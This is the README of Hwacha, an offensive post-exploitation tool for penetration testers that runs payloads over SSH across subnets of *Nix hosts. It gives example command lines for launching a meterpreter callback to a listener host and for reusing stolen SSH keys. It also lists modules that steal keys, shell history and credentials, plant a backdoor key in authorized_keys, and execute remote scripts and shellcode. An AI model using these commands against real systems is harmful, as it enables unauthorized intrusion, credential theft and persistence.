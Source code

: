 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)

https://www.n00py.io/2017/12/raining-shells-on-linux-environments-with-hwacha/

Hwacha is a tool to quickly execute payloads on *Nix based systems.  Easily collect artifacts or execute shellcode on an entire subnet of systems for which credentials are obtained. 


    $python hwacha.py 
        &&&&     &&         &&        &&
    &&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
       &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
      &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
     &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
      &&    &&   &&      &&    &&     &&     | | | |                   | |
       &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
         &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
    &&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
                 &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
    To run commands, use -x [COMMAND]
    to run modules, use -m [MODULE]
    to specify module options, use -o [ARG=ARG ARG=ARG]
    to see all available modules, use -L
    Example usage:
    python hwacha.py -t 192.168.1.1/24 -u admin  -p password
    python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
    python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
    python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"


    Available Modules:
    [*] meterpreter               Use this to execute a meterpreter agent on the target(s).
                                  REQURED ARGUMENTS: LHOST , LPORT
                                  OPTIONAL ARGUMENTS: TYPE {python, php, 32, 64, osx}
    [*] mimipenguin               Use this to execute a mimipenguin on the target(s) to recover credentials.  (Requires root)
                                  OPTIONAL ARGUMENTS: LHOST, LPORT
    [*] keys                      Use this to collect SSH private keys from the target(s).
    [*] history                   Use this to collect shell history files from the target(s).
    [*] privs                     Use this to enumerate sudo privileges on the targets(s).
    [*] backdoor                  Creates an RSA key pair and adds public key to authorized_keys file on targets(s).
    [*] web_delivery               Use this to execute a python script on the target(s).
                                  REQURED ARGUMENTS: PATH
                                  OPTIONAL ARGUMENTS: LISTEN
    [*] custom_bin               Use this to execute a custom binary on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] sudo_exec               Use this to execute a custom binary (with sudo) on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] shellcode               Use this to execute custom shellcode on the target(s).
                                  REQURED ARGUMENTS: PATH


Requires paramiko:

    pip install paramiko 
